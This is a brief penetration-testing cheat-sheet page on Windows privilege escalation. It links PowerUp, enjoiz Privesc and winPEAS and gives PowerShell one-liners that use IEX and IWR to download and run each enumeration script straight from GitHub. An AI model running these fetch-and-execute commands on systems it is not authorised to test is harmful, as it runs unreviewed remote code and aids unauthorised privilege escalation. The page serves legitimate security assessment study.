 - **PowerUp:** https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc 
- **Privesc:** https://github.com/enjoiz/Privesc 
- **winPEAS:** https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

>**ℹ️ Info:**
>
> Remember to follow the PowerShell scripts methodology [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).


```powershell
# PowerUp
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1);Invoke-AllChecks

# Privesc
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/enjoiz/Privesc/refs/heads/master/privesc.ps1);Invoke-PrivEsc

# winPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1)
```